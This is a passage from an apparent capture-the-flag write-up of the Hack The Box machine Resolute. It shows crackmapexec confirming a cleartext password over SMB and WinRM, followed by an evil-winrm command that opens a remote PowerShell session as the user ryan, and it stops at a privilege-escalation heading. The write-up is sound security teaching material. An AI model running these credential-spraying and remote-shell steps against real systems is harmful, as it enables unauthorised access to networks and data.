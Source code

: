 

    *Evil-WinRM* PS C:\> net localgroup "Remote Management Users"
    Alias name     Remote MAnagement Users
    Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

    Members

    -------------------------------------------------------------------------------
    Contractors
    melanie
    The command completed successfully.



From my Kali box, I can also check the creds with `crackmapexec`:



    root@kali# crackmapexec smb 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)



The creds are valid for SMB. The `(Pwn3d!)` there sent me down a rabbit
hole that I haven't found the end of yet and thus didn't make it into
this post. That typically indicates that ryan can PSExec, but it fails.
I've walked the source code and understand what is happening. There
might even be a shell out of it (but also maybe not). I'll see if the
rabbit hole makes an interesting follow on blog post. Anyway...

`crackmapexec` can also check WinRM, and ryan can authenticate:



    root@kali# crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
    WINRM       10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
    WINRM       10.10.10.169    5985   RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)



#### Shell

As shown above (or most of us probably just found out when trying it),
the creds work to get a shell as ryan:



    root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'

    Evil-WinRM shell v2.1

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\ryan\Documents>



## Priv: ryan --\> SYSTEM
